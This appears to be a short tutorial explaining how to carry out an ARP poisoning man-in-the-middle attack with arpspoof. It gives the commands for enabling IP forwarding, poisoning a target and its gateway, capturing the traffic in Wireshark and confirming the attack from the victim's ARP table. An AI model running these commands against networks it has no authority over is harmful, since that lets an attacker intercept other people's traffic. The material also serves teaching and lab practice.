

arpspoof (ARP Poisoning)
arpspoof is part of a collection of tools Dsniff.
arpspoof redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies
Before run arpspoof we have to enable the Linux Kernel IP Forwarding, a feature that transforms a Linux machine into a router. By doing that we tell to our machine to forward the packets that we intercept to the real destination host
echo 1 > /proc/sys/net/ipv4/ip_forward
Now we can run arpspoof
arpspoof -i <interface> -r -t <target> <host>
-i <interface> → interface is the NIC we want to use, for example, eth0 for our local LAN
-r → Poison both hosts (target and host) to capture traffic in both directions. (only valid in conjuntion with -t)
-t <target> → host from which we intercept the packets
-r <host> → host for which the packet were intended
Now that the ARP Poisoning attack is complete we can intercept the traffic with wireshark
Check if the Attack worked(only if we have access on the attacked machine)
Find MAC address of our MitM machine
ifconfig #Linux MitM machine

After the ARP Poisoning, the gateway(192.168.1.1) MAC address is our MAC address(MitM machine)
We have executed these commands on the target machine(attacked)
arp -a #Windows target machine
before:

after: